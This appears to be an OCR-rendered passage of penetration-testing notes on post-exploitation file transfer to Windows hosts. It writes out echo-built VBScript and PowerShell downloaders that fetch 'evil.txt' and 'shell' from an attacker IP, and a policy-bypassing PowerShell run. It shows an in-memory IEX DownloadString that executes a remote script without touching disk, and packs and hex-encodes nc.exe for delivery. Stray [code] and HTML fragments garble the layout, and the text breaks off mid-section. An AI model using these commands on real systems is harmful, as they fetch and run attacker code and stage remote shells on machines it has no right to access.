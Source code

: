 ```visual-basic
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs

#How to run it 
[code]

cscript wget.vbs http://192.168.1.10/evil.txt evil.txt
```

```bash
upx -9 nc.exe
sudo exe2hex -x  nc.exe  -p nc.cmd
```

### Power shell commands to download files

<pre class="language-powershell"><code class="lang-powershell">echo $webclient = New-Object System.Net.WebClient >>wget.ps1 
echo $url = "http://192.168.1.10/shell" >>wget.ps1 
echo $file = "shell" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
[code]
#How to run it 
[code]
<strong>powershell -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
</strong>[code]

#Powersehll In one line 
[code]
<strong>powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.10/upload.php', 'pass.txt')
</strong>[code]

#On Fly command  --> Run powershell script without downloading it on the hard disk
[code]
powershell IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.1.10/hello.ps1')
[code]


#Uploading files 
#Preparing kali upload direcotry 
sudo mkdir /var/www/uploads
sudo chown www-data: /var/www/uploads
</code></pre>

### Save this php code into /var/www/html/
